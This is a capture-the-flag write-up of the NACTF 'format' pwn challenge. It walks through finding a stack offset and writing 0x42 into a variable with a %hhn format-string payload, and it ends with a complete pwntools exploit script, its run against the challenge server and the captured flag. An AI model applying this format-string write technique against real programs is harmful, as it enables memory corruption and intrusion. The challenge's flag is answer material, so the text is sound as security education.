

## NACTF: format [pwn]


#### Despite being an easy challenge, I was still satisfied to solve it since I wasn't confident with my format string skills. We were given the challenge binary and source code which makes it kinda easier to understand. Basically what we need to do is set the lower bits of the num variable to the value 0x42 (66). 

#### My first plan was to first find the offset at which our input can be located on the stack. Playing around gives us the offset of 6, but after placing the address of the num variable (which I got from gdb), we need to adjust. 

```python
#: 12 space padding
p.sendline("            %8$p{}".format(p64(0x404080)))
print(p.recv())
```
```
[x] Starting local process './format'
[+] Starting local process './format': pid 25945
Give me some text.

You typed             0x404080�@@!
Nope, try again

[*] Process './format' stopped with exit code 0 (pid 25945)
```

#### Alright we there we have it, the next step is then to write 0x42 into that address. We can achieve this by using the modifier `%hhn` which will write exactly a byte into num. Since the %hhn modifier will write how many bytes printf has written, we need a way to adjust the size of the payload: using the modifier to add spaces (%Nx, N being the number of spaces we want printf to write). It took quite some time to fiddle around, but after a few adjustments we got the results we need

```python
p.sendline("%60x      %8$hhn{}".format(p64(0x404080)))
print(p.recv())
```

#### To walk you through what the idea is here, `%60x` prints out 60 bytes of data and prints out another 6 bytes from the spaces, making the total number of bytes written by printf to 66 (0x42). It then writes this amount into the 0x404080 (the address of the num variable) and proceeds to write exactly one byte due to the %hhn modifier. Final exploit script used to get the flag is the one below:

```python
from pwn import *

#:
#p = process('./format')
p = remote('challenges.ctfd.io', 30266)
#gdb.attach(p.pid, 'break *check_num + 32')
print(p.recvuntil('.\n'))

#: 12 space padding
p.sendline("%60x      %8$hhn{}".format(p64(0x404080)))
print(p.recvuntil('}'))
```
```
$ python exploit.py
[x] Opening connection to challenges.ctfd.io on port 30266
[x] Opening connection to challenges.ctfd.io on port 30266: Trying 159.203.148.124
[+] Opening connection to challenges.ctfd.io on port 30266: Done
Give me some text.

You typed                                                     1aacf150      �@@!
Congrats! here's your flag
nactf{d0nt_pr1ntf_u54r_1nput_HoUaRUxuGq2lVSHM}
[*] Closed connection to challenges.ctfd.io port 30266
```